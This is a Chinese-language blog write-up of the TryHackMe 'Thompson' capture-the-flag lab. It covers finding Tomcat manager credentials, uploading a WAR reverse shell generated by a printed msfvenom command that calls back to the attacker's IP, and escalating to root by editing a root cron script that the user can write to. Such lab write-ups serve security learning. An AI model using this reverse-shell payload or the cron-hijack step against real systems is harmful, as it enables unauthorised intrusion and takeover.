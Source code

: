 ```yaml
---
title: '[thm] Thompson'
date: 2024-12-26 14:15 +0800
categories: [hack,TryHackMe]
tags: []
---
```




## information

![image-20241226141638959](../assets/img/2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226141638959.png)

> nmap扫描

![image-20241226142025415](../assets/img/2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226142025415.png)

> 8080端口截图

看到开放了三个端口。其中`8009`这个端口和对应的`ajp13`服务引起了我的兴趣，查询可知，这个服务存在一个任意文件读取的漏洞，并且事实上这个漏洞确实存在。

8080端口是一个`tomcat`，理所当然的查看`manager`路径，登录页面需要账号密码。

![image-20241226142311254](../assets/img/2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226142311254.png)

到此为止，我一开始觉得思路就很清晰了，我只需要通过任意文件读取的漏洞查看到`conf/tomcat-user.xml`中的账号密码就可以了。事实并非如此，任意文件读取就是一个兔子洞，我在这里浪费了太多的时间，其实只需要按下`Cancel`按钮，就可以直接看到密码......

![image-20241226142458987](../assets/img/2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226142458987.png)

> zhei您受得了吗。

**tomcat/s3cret**

## user1

有了tomcat的后台页面，顺理成章我们上传一个war木马，就可以拿到shell

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.14.95.76 LPORT=1234 -f war -o shell.war
```

偷个懒，就不复现一遍了。

![image-20241226142721955](../assets/img/2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226142721955.png)

## root

![image-20241226142849270](../assets/img/2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226142849270.png)

到`jack`哥哥的家目录下。可以发现一个`id.sh`。里面内容大致如下（这里的已经被我修改了）。

```sh
#/bin/bash

id > test.txt
```

同时查看定时任务发现，这是`root`的定时任务，每分钟执行。我看到命令行内容第一反应是劫持环境变量提权，但是这里注意权限，我们对`id.s`h是可读可写可执行。所以我们只要修改sh脚本的内容，就可以得到我们想要的`root.txt`

![image-20241226143347446](../assets/img/2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226143347446.png)

> own~

## conclusion

- 注重思路的同时要注意细节。这个靶机两个点都与细节有关，`cancel`一个，`sh`脚本权限一个。
